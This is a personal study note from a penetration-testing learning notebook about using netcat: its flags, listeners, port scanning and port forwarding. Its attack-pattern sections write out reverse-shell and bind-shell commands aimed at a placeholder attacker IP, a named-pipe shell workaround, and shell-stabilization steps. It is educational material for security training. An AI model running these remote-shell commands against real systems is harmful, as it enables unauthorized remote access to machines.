 # Using “netcat”

author:: Nathan Acks
date:: 2022-06-29

The netcat binary is *usually* `nc`, but some systems have it at `ncat` or `netcat` instead.

Note that the `-c` and `-e` flags are considered security risks (for obvious reasons!), and are disabled on some systems.

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn’t. I think — though I haven’t been able to verify — that what’s happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

A netcat server doesn’t have to be used just for reverse shells. For example, you can also use it to catch web requests in conjunction with XSS or SQLi attacks.

## Useful Flags

* `-l` — listen for incoming connections (rather than make an outgoing connection)
* `-v` — verbose
* `-n` — skip DNS resolution (slightly faster, less noisy on the network)
* `-p` — specify the port to *listen* to
* `-u` — connect using UDP instead of TCP
* `-k` — keep listening even after client disconnects

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn’t available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; \
nc -lvnp $LISTENER_PORT < /tmp/p | \
	/bin/sh >/tmp/p 2>&1; \
rm /tmp/p
```

(Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See the discussion of msfvenom payloads for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc. In practice, this generally involves creating a *second* connection from within the “unstable” shell, and then using that (keeping the first connection around just so you can restart the “stabilized” shell if you accidentally exit/kill it).

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

The `rlwrap` package will handle almost all of this for you.

```bash
rlwrap -cAr nc -lvnp $PORT
```

Or just use socat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## Port Forwarding

```bash
nc -lvnp $INCOMING_PORT -c "nc $TARGET_IP $TARGET_PORT"
```

## Other Uses

### Telnet Replacement

If you just have netcat connect to a service directly, it functions exactly like telnet.

### Port Scanning

With the `-z` option, netcat will attempt to connect to all TCP ports on the targets in a sequential fashion (if no ports are specified; otherwise just to the specified port), reporting which are open. It’s like a simple, very slow version of Nmap!

Useful flags:

* `-w` — set the timeout, in seconds
* `-u` — try connecting over UDP rather than TCP

### Port Forwarding

```bash
nc -lvkp $LOCAL_PORT -c "nc $REMOTE_IP $REMOTE_PORT"
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe: CC: Pen Testing](tryhackme-cc-pen-testing.md)
* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Using Metasploit](metasploit.md)
* [Using “socat”](socat.md)
* [XSS (Cross-Site Scripting) Attacks](xss-attacks.md)
* [SQL Injection](sql-injection.md)
* [2022-03-30 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-03-30-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
* [Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
* [2022-05-09 - TryHackMe: Jr. Penetration Tester (Supplements)](../log/2022-05-09-tryhackme-jr-penetration-tester-supplements.md)
* [2022-06-29 - OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-06-29-offsec-live-pen-200-and-aws-deep-dive.md)
* [Using “nmap”](nmap.md)
* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [2022-07-13 - OffSec Live: PEN-200](../log/2022-07-13-offsec-live-pen-200.md)
